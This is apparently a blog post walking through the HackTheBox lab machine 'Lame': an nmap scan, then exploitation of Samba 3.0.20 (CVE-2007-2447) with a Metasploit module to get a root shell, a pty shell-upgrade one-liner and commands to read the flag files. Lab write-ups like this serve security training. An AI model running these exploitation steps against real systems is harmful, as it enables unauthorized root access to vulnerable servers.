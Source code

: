 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Lame"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Lame is an easy HackTheBox machine created by ch4p. It involves exploiting a vulnerable samba server.                                            
img: htb-lame/lame-info-card.png                                                 
tags: [HackTheBox, Lame, Samba, Writeup, CVE-2007-2447]
---
```


Lame is an easy HackTheBox machine created by [ch4p](https://app.hackthebox.com/users/1). It involves some simple enumeration and the exploitation of a known Samba vulnerability.

# Enumeration 

To kick off this box, let's run a Nmap scan to see what services and ports are open. 

```
nmap -sC -sV 10.129.203.142 -oN top_1000
```

The scan shows that the ports for FTP (21), SSH (22), and Samba (139 & 445) are open. 

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-12T11:43:07-04:00
```

# Exploitation
Samba is infamously known for being chock-full of vulnerabilities. So, I'm going to start by checking for known exploits. After a quick Google search, I found that Samba 3.0.20 is vulnerable to [CVE-2007-2447](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script) A.K.A. "Samba Username Map Script Command Execution". 

This exploit is conveniently a Metasploit module. So, I will use Metasploit to carry out this attack. 

To begin, I'll type `msfconsole` into the commandline. 

From there, I'll find the module by using Metasploit's search feature:

```
msf6 > search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

The exploit is the only one available. To get Metasploit to use this module, type `use 0` and then `show options`. 

You should get something that looks like this:

![msf options]({{site.baseurl}}/assets/img/htb-lame/msf-options.png)   

From here, I'll set the `LHOSTS` and `RHOSTS` parameters. 

- LHOST is your listening address. For most people, this will be equal to your `tun0` value (you can find this by using the `ifconfig` command). 
- RHOSTS is the machine's IP address. 

To set these values, use the following commands: 

_Note: Sub \<ip_address\> for Lame's IP address._ 

```
set RHOSTS <ip_address>
set LHOSTS tun0
```

Once those values are set, we can exploit the machine! Do this by typing `exploit` and pressing `Enter`! If all went well, you should have a root shell on the machine (A.K.A INFINITE POWER :joy:).

_Optional: To make your shell look better, use this Python one-liner:_
```
python -c 'import pty; pty.spawn("/bin/bash");'
```

From here, you can collect the user and root flags by running the following commands.

```
[User] cat cat /home/makis/user.txt
[Root] cat /root/root.txt
```

I hope you enjoyed this writeup! Happy Hacking :) 

